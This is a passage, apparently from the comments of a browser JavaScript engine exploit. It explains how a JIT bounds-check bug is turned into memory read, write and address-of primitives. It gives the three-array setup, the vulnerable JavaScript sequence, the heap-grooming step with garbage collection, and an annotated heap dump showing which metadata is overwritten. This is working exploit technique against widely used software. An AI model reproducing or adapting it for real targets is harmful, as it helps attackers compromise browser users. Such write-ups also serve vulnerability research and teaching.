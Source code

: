     Followed finally by the actual element data of the array, which is pointed to
    by the NativeObject.ElementsPtr.

    The bug is converted into exploit primitives R/W/AddressOf by setting up 3
    arrays in memory prior to executing the JIT bug:

    BugArray1 = new Array(0x20);
    BugArray2 = new Array(0x20);
    MutableArray = new Array(0x20);

    This will eventually result in the following memory layout in the nursery heap:

    [BugArray1.NativeObject][BugArray1.ElementsMetadata][Element data][BugArray2.NativeObject][BugArray2.ElementsMetadata][Element data][MutableArray.NativeObject][MutableArray.ElementsMetadata][Element data]

    Thus the OOB array access (via the JIT bug) will be used on BugArray1 to overwrite
    BugArray2.ElementsMetadata. Subsequently, BugArray2 may be used to make OOB R/W
    at will (without the need to repeat the JIT bug) and overwrite the
    MutableArray.NativeObject in order to build the primitives for the remainer of
    the exploit.

    Prior to doing this, it is essential to do some heap grooming to prepare for the
    OOB array access from BugArray1 to corrupt BugArray2.ElementsMetadata. Re-visiting
    the vulnerable JS code:

    BugArray1[Index] = 4.2;
    SideEffectArray[SideEffectIndex] = 2.2;
    BugArray1[Index] = DblVal;

    Access to the SideEffectArray may be used to trigger some arbitrary code of our
    choice prior to the second (vulnerable/no boundscheck) BugArray1 access. This
    is used to set the .length field of the BugArray1, BugArray2 and MutableArray
    arrays to zero and trigger the garbage collector. After doing so, these three
    arrays will appear on the nursery heap as follows:

    000000000B5BF100  000000000B5A5A60  <- BugArray1.NativeObject
    000000000B5BF108  000000000B5C21C8
    000000000B5BF110  0000000000000000
    000000000B5BF118  000000000B5BF130  <- BugArray1.NativeObject.ElementsPtr
    000000000B5BF120  0000000000000000  <- BugArray1.ElementsMetadata
    000000000B5BF128  0000000000000006
    000000000B5BF130  FFFA800000000000  <- BugArray1 raw element data
    000000000B5BF138  FFFA800000000000
    000000000B5BF140  FFFA800000000000
    000000000B5BF148  FFFA800000000000
    000000000B5BF150  FFFA800000000000
    000000000B5BF158  FFFA800000000000
    000000000B5BF160  000000000B5A5A90  <- BugArray2.NativeObject
    000000000B5BF168  000000000B5C21C8
    000000000B5BF170  0000000000000000
    000000000B5BF178  000000000B5BF190
    000000000B5BF180  0000007E00000000  <- Overwritten BugArray2.ElementsMetadata (note QWORD index 10 from the start of BugArray1.NativeObject.ElementsPtr)
    000000000B5BF188  0000007E0000007E
    000000000B5BF190  0000000000000000  <- BugArray2 raw element data
    000000000B5BF198  0000000000000000
    000000000B5BF1A0  0000000000000000
    000000000B5BF1A8  0000000000000000
    000000000B5BF1B0  0000000000000000
    000000000B5BF1B8  0000000000000000
    000000000B5BF1C0  000000000B5A5AC0  <- MutableArray.NativeObject
    000000000B5BF1C8  000000000B5C21C8
    000000000B5BF1D0  0000000000000000
    000000000B5BF1D8  000000000B5BF1F0
    000000000B5BF1E0  0000000000000000  <- MutableArray.ElementsMetadata
    000000000B5BF1E8  0000000000000006
    000000000B5BF1F0  0000000000000000  <- MutableArray raw element data